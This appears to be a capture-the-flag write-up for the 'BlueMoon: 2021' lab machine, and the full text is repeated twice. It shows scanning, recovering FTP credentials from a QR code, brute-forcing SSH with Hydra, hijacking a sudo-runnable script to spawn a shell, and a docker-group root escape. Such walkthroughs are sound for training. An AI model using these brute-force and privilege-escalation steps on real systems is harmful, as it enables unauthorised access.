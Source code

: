 #  BlueMoon: 2021 Writeup

## Enumeration
- Run a nmap scan to see what ports are open and what services are running.

    ```nmap -sC -sV -oN nmap.txt 192.168.86.55```

    - Open Ports
        - 21 FTP - vsftpd 3.0.3
            - No anonymous login allowed
        - 22 SSH - OpenSSH 7.9p1
        - 80 HTTP - Apache httpd 2.4.38
    - ![](pix/nmap.png)

- Let's check out the web server.
    - The default page has a welcome message with an image. 

    - ![](pix/web.png)

    - Next I run a gobuster scan to enumerate any hidden directories. 
    
        - ```
            gobuster dir --url http://192.168.86.55 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster.txt
            ```

    - gobuster comes back with '/hidden_text' which goes to a page that is under maintenance with a link to a QR code.
        - ![](pix/web2.png)

      - Save the QR come image on the local machine and use www.zxing.org to read the image.

      - The QR code reveals a user:userftp, password:ftpp@ssoword

        - ![](pix/web3.png)

        - Time to try this with the open FTP port.

   
    - The found creds gets us into the FTP server which has 2 txt files. using [get "filename"] I downloaded the files into my machine 

    - ![](pix/ftp.png)

        - The information.txt reveals a username and mentions a password list for that user. Looks the p_lists.txt contains the list of passwords. 

        - Since SSH port is open, let's try to brute force the login with HYDRA.

        - ```
            hydra -l robin -P p_lists.txt 192.168.86.55 ssh
            ``` 
        - ![](pix/ssh.png)
        - hyrda finds the password for user robin:k4rv3ndh4nh4ck3r

        - Now let's ssh into the machine with robin
        - ![](pix/ssh2.png)
        - I found the user1 flag

## Privilege Escalation

- I ran sudo -l command to check if robin has any sudo privilege. It looks like robin can run feedback.sh as jerry.
- robin doesn't have write permission for feedback.sh but he does have write permission for the folder that feedback.sh is in. 
- I removed the feedback.sh file and replaced it with a modified one to spawn a shell as jerry.

    - ``` 
        rm project/feedback.sh
        echo '#!/bin/bash' > project/feedback.sh
        echo '/bin/sh' >> project/feedback.sh
        chmod 
        chmod +x project/feedback.sh
        ```

    - With the new feedback.sh it will spawn a shell as the person execuation the command, in this case is jerry.
    - ![](pix/feedback.png)

- To spawn the new shell i used the following command 
```sudo -u jerry /home/robin/project/feedback.sh```
    - -u to run the command as user jerry
    - whoami confirms the user is jerry
    - type 'bash' to spawn a better shell.
    - I found user2 flag in /home/jerry/user2.txt


- I still need root, so i continue enumerating.

- running 'id' command shows that jerry is in docker group, this can be abused to spawn a root shell.
    - googling 'docker privilege escalation' led me to GTFOBin's website that has a simple command that will spawn a root shell. 
        - ![](pix/gtfo.png)

        - ```
            docker run -v /:/mnt --rm -it alpine chroot /mnt sh
            ```
        - running this command grants me root access.
        - In /root is the root flag
        - ![](pix/root.png)


### bada bing bada boom .... We have rooted BlueMoon



#  BlueMoon: 2021 Writeup

## Enumeration
- Run a nmap scan to see what ports are open and what services are running.

    ```nmap -sC -sV -oN nmap.txt 192.168.86.55```

    - Open Ports
        - 21 FTP - vsftpd 3.0.3
            - No anonymous login allowed
        - 22 SSH - OpenSSH 7.9p1
        - 80 HTTP - Apache httpd 2.4.38
    - ![](pix/nmap.png)

- Let's check out the web server.
    - The default page has a welcome message with an image. 

    - ![](pix/web.png)

    - Next I run a gobuster scan to enumerate any hidden directories. 
    
        - ```
            gobuster dir --url http://192.168.86.55 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster.txt
            ```

    - gobuster comes back with '/hidden_text' which goes to a page that is under maintenance with a link to a QR code.
        - ![](pix/web2.png)

      - Save the QR come image on the local machine and use www.zxing.org to read the image.

      - The QR code reveals a user:userftp, password:ftpp@ssoword

        - ![](pix/web3.png)

        - Time to try this with the open FTP port.

   
    - The found creds gets us into the FTP server which has 2 txt files. using [get "filename"] I downloaded the files into my machine 

    - ![](pix/ftp.png)

        - The information.txt reveals a username and mentions a password list for that user. Looks the p_lists.txt contains the list of passwords. 

        - Since SSH port is open, let's try to brute force the login with HYDRA.

        - ```
            hydra -l robin -P p_lists.txt 192.168.86.55 ssh
            ``` 
        - ![](pix/ssh.png)
        - hyrda finds the password for user robin:k4rv3ndh4nh4ck3r

        - Now let's ssh into the machine with robin
        - ![](pix/ssh2.png)
        - I found the user1 flag

## Privilege Escalation

- I ran sudo -l command to check if robin has any sudo privilege. It looks like robin can run feedback.sh as jerry.
- robin doesn't have write permission for feedback.sh but he does have write permission for the folder that feedback.sh is in. 
- I removed the feedback.sh file and replaced it with a modified one to spawn a shell as jerry.

    - ``` 
        rm project/feedback.sh
        echo '#!/bin/bash' > project/feedback.sh
        echo '/bin/sh' >> project/feedback.sh
        chmod 
        chmod +x project/feedback.sh
        ```

    - With the new feedback.sh it will spawn a shell as the person execuation the command, in this case is jerry.
    - ![](pix/feedback.png)

- To spawn the new shell i used the following command 
```sudo -u jerry /home/robin/project/feedback.sh```
    - -u to run the command as user jerry
    - whoami confirms the user is jerry
    - type 'bash' to spawn a better shell.
    - I found user2 flag in /home/jerry/user2.txt


- I still need root, so i continue enumerating.

- running 'id' command shows that jerry is in docker group, this can be abused to spawn a root shell.
    - googling 'docker privilege escalation' led me to GTFOBin's website that has a simple command that will spawn a root shell. 
        - ![](pix/gtfo.png)

        - ```
            docker run -v /:/mnt --rm -it alpine chroot /mnt sh
            ```
        - running this command grants me root access.
        - In /root is the root flag
        - ![](pix/root.png)


### bada bing bada boom .... We have rooted BlueMoon



